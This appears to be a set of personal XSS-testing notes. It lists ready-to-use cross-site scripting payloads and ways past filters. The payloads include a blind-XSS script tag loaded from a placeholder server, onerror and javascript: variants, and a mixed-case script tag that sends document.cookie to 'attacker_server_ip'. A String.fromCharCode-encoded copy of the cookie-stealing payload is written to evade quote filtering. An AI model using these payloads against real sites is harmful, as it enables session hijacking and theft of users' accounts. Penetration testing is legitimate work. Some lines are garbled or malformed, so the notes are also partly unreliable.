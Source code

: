 Search XSS pay-loads online for more ideas.

Good way for manual XSS testing is to insert an XSS polyglot (less time consumming)
https://polyglot.innerht.ml/
now is here
https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/

Blind XSS flaws are harder to detect . You can’t test for them by trying to generate an
alert box. You must use a server and see the petition logs to the server.

`<script src='http://YOUR_SERVER_IP/xss'></script>`

### Step 3: Confirm the Impact ###
-Test if your payload do what you want
-Sometimes you must have priviledges (admin) to do what you want
-Sometimes you must wait a couple of ours or use another account.

### Bypassing XSS Protection

##### Alternative JavaScript Syntax #####

Sometimes filters don't allow the `<script>`
Original:
`<img src="USER_INPUT">`

Instead of this:

`<img src="/><script>alert('XSS by Vickie');</script>"/>`

use this:

`<img src="123" onerror="alert('XSS by Vickie');"/>`

or this:

`<a href="javascript:alert('XSS')>Click me!</a>"`

##### Capitalization and Encoding

If doesn't allow `script` maybe allows `scrIPT` browsers generally don't pay attention to this issues

`<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>`

If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly.

```
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47,
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```
Some code:
Encoding
```
<script>
 function ascii(c){
return c.charCodeAt();
}
encoded = "INPUT_STRING".split("").map(ascii);
document.write(encoded);
</script>
```
